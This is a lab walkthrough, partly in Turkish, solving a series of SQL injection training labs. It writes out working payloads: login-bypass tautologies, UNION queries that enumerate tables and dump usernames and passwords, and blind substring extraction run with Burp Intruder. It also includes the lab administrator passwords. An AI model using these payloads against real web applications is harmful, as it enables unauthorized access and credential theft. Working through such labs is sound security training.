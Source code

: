 #### 1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

In this lab w<b>e</b> are si<b>m</b>ply asked to f<b>i</b>nd hidden contents, to do this we simply w<b>r</b>ite 
'OR 1=1 -- in t<b>h</b>e c<b>a</b>tegory filter.


#### 2.Lab: SQL injection vulnerability allowing login bypass

We <b>n</b>eed to log in as administrator in this lab
so we wite administrator to the username space and in the password space we write a ' OR 1=1 --

#### 3.Lab: SQL injection attack, querying the database type and version on Oracle
in the url in the category filter we write the Querry below, there is a Union Based vulnerability so we use that.
' UNION SELECT banner,NULL FROM v$version --

#### 4.Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
In this lab we use the UNION based querry below, in the category filter, we enter null till we find the column number, and because this thing is MySQL I had to add random characters after the comment

' UNION SELECT @@version,NULL -- ASDFDAS

#### 5.Lab: SQL injection attack, listing the database contents on non-Oracle databases

First of all we try entering null to learn how many columns the querry generates, to do that I wrote : ' UNION Select NULL,NULL -- hallo
this meant that the querry returned 2 comluns
then we use the information_schema that holds information about the working of the db, tables, columns etc. to get the names of the tables to find the users_table
with the querry below we get the names of the columns and tables:

' UNION Select Table_name, column_name from information_schema.columns -- hallo

through this we learn that the user table name is 

| Users Table     | users_sjqbuu    |
| --------------- | --------------- |
| password column | password_vbjxeg |
| username column | username_wtupts |
| email column    | email           |
After that we do a querry to get the password for the administrator.

' UNION Select username_wtupts, password_vbjxeg from users_sjqbuu where username_wtupts='administrator' -- hallo

 the querry above returns 

 administrator q4lufxjulfdiihgwz0oz 

| username      | password             |
| ------------- | -------------------- |
| administrator | q4lufxjulfdiihgwz0oz |
than we simply log in with this information

#### 6.Lab: SQL injection attack, listing the database contents on Oracle

For this one we have to do the same thing as the previous one but on an oracle database, which only changes the syntax of the querry.

To determine the number of columns a the table has we write

' UNION SELECT NULL, NULL FROM dual -- 
because oracle doesnt allow you to do a column number check without using a table, so we use a system table named dual to do it.

To find the table names we enter the querry below:

' UNION SELECT table_name FROM all_tables --

After finding the table names we find info about the user table which is ' USERS_ICOBDO '

We write the querry below to get column names:
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_ICOBDO' --

In this case the column names are:
EMAIL
PASSWORD_GOXWED
USERNAME_JXUMQD
 
 aafter this we write:
 ' UNION SELECT PASSWORD_GOXWED, USERNAME_JXUMQD FROM USERS_ICOBDO Where USERNAME_JXUMQD = 'administrator'  --
to find the password which is : m11hon4l823kphi5yykw 
We log in and lab solved.

#### 7.Lab: SQL injection UNION attack, determining the number of columns returned by the query

For this lab we had to find how many columns the table in question has. To do that we simply wrote ' UNION SELECT NULL, NULL,null -- and the lab was solved.

#### 8.Lab: SQL injection UNION attack, finding a column containing text

In this lab we have to find the column with the string data
find the column number:
' UNION Select Null, null, null --

Basılması gereken string ifadeyi sorguda farklı sütunlara denk gelecek şekilde kaydırıyoruz. İkinci sütunun string compatible olduğu ortaya çıkıyor.

' UNION Select null, 'cUaHiD',null from information_schema.tables -- adsffdasss

#### 9.Lab: SQL injection UNION attack, retrieving data from other tables

Kullanıcı infosunu çekip admin olarak giriş yapmamız gerekmektedir bu labda
' UNION select null, null -- asdffdasasdffdasasdfw
the command above helps us determine the number of columns being returned

tablo isimleri bulunur:
' UNION select table_name, null from information_schema.tables -- asdf

users adlı tablo kullanıcı bilgileri içerir.

içeriğini **' UNION select username, password from users -- asdf** komuduyla çekiyoruz

administrator olarak 905n98jzi70fdom4uoxu şifresiyle giriş yapıyoruz.

#### 10.Lab: SQL injection UNION attack, retrieving multiple values in a single column

For this lab, concat kullanarak password and username info will be extracted. Hedef aynı administrator login

labda string destekleyen tek bir sütun var bu yüzden username ve passwordleri tek bir sütunda çıkarıcaz:
' UNION select null,concat(username,' ', password) from users -- adffdassdf
administrator jssdznas6uio45ymlh6f

#### 11.Lab: Blind SQL injection with conditional responses

In this lab we are going to retrieve login info through conditional responses.
in the lab description it says that there is a table named users and that this table has a password and username column. It also states that there is aTrackingID cookie that we can use to perform a blind sql attack. 

Başta password length bulmak için aşağıdaki payload u kullanıyoruz:
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
ben bu işi otomatik olarak yapmak için burp intruder kullandım. 30 deneme girdim, 20nci denemede Welcome back mesajı artık çıkmıyordu bu da password length i belirtiyor

ardından şifreyi bulmak için aşağıdaki payload ı intruder da çalıştıracağız her bir alfanümerik karakter için. bir harf bulduğumuzda da substring konumunu değiştireceğiz.

payload: ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

böylece şifre yavaşça çıkıyor
şifre:
hpv2krlq3kioy6aze0y3

#### 12.Lab: Blind SQL injection with conditional errors

